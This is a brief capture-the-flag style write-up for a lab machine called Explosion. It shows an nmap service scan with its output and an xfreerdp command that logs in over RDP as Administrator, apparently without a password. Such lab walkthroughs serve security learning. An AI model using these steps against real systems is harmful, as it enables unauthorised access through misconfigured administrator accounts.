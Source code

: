 # Explosion Write-Up

Very easy

Tags: 
`Network`
`Account Misconfiguration`

## Intro

Use RDP to connect with the machine

## Exploit

### 1. Scan the target's port

```
nmap -sV <target IP>
```
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-25 04:10 EDT
Nmap scan report for 10.129.37.29
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.12 seconds
```

### 2. Connect to the target via rdp

```
xfreerdp /v:10.129.31.60 /u:Administrator
```

![0.4-Explosion-img-1.png](/img/0.4-Explosion-img-1.png)
